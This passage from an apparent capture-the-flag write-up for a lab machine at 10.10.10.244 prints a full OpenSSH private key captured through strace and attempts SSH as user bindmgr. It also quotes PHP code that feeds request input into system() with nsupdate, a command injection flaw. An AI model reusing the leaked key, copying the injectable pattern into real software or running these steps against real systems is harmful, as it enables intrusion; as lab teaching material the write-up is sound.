 ```
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
```

After cleaning up the key file, we will save it to a ```ssh_key``` file and try to SSH into the server. However, we still require a password to SSH into the server.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i ssh_key bindmgr@10.10.10.244                                                         6 ⚙
bindmgr@10.10.10.244's password: 
```
### Modifying DNS records
Let's go back to check if we can find anything else that we are missing. True enough, in the ```/var/www/html/nic``` directory, we found a ```update``` file. Viewing the source code in the ```update``` file, we know that ```/usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key``` is being executed. The main reason why we could not SSH into the server was because our IP address is not in the zone.
```
  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
```
